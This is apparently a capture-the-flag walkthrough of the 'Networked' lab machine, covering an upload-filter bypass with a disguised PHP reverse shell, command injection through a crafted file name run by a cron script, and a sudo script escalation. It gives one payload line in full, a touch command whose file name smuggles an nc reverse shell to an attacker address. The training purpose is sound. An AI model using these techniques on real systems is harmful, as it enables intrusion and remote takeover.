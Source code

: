 ## Networked

Difficulty: Easy

### Apache User

```
rustscan -a 10.10.10.146 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/c7efcdf6-463b-459b-a06d-4fc9305da032)

<br>

Enumerating directories, we find some interesting files. Backup has some internal files related to the source code of this php functions.

![goBuster](https://github.com/b1d0ws/OSCP/assets/58514930/0530cdd0-3fe1-4f4b-ae26-27b277e8e2ae)

<br>

In upload.php we can upload files, but uploading a traditional php reverse shell is not possible.

![uploadPHP](https://github.com/b1d0ws/OSCP/assets/58514930/e4c08b7d-3a39-4555-8c05-c59d7f2fd682)

<br>

Reading lib.php extracted from the backup we understand how upload.php and lib.php are blocking php files to be uploaded. We need to bypass the check file type and the extension validation.

![uploadPHPCode](https://github.com/b1d0ws/OSCP/assets/58514930/f68f58fc-93c6-47fb-b0e9-a5bd70f101d1)

![mimeType](https://github.com/b1d0ws/OSCP/assets/58514930/46f2c9ac-9894-473b-80ed-f27a5a15392f)

<br>

To bypass this, we rename php-reverse-shell.php to php-reverse-shell.php.jpg and add magic bytes to its header to trick the mime type validation.

![uploadSuccessfull](https://github.com/b1d0ws/OSCP/assets/58514930/3db8dfbb-5af2-4aa8-92fb-d436379dbdb7)

![reverseShellJPG](https://github.com/b1d0ws/OSCP/assets/58514930/4b613891-fc7f-4e59-aa1c-1e63fb425c15)

To execute the file, we need to find the path of it in photos.php.

![photosPHP](https://github.com/b1d0ws/OSCP/assets/58514930/0235e5c3-e646-45bc-ba3c-e696acf385f8)

![accessingReverse](https://github.com/b1d0ws/OSCP/assets/58514930/d1aec802-073e-43df-8c56-85fb870c163c)

### Guly User

With the apache reverse shell, we need to escalate to guly. Inside it's home directory, we discover a crontab running the command above each 3 minutes.

```
php /home/guly/check_attack.php
```

![checkingCrontab](https://github.com/b1d0ws/OSCP/assets/58514930/a3a46414-eed6-4849-917c-8730ee1b26b2)

<br>

Looking at the php code, we see that it is vulnerable to command injection, since the $value variable can be created by us. We just need to create a file inside /var/www/html/uploads with a malicious name and get the code execution.

![checkAttack](https://github.com/b1d0ws/OSCP/assets/58514930/6df85d0e-cb07-4103-ab7e-8938fb8e3e56)

<br>

For some reason, nc with "-e" doesn't work well here.

```
touch '; nc 10.10.14.5 5555 -c bash'
```

![gulyReverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/fce6b9a0-6cc4-46a7-a1e4-50709db2aec4)

### Root Flag

We have permission to execute /usr/local/sbin/changename.sh as sudo as sudo -l shows us.  

This script file deals with network scripts and management in the system.

![changeNameSh](https://github.com/b1d0ws/OSCP/assets/58514930/fac748f2-1058-485c-8fcf-aa5fd18859e5)

<br>

Searching for vulnerabilities related to this, we find this [article](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).  

Basically we can execute command after inserting the data related to the variables being exported when executing this script.

![privilegeEscalation](https://github.com/b1d0ws/OSCP/assets/58514930/30df0cd9-a378-47de-afd3-2df4c57187c9)
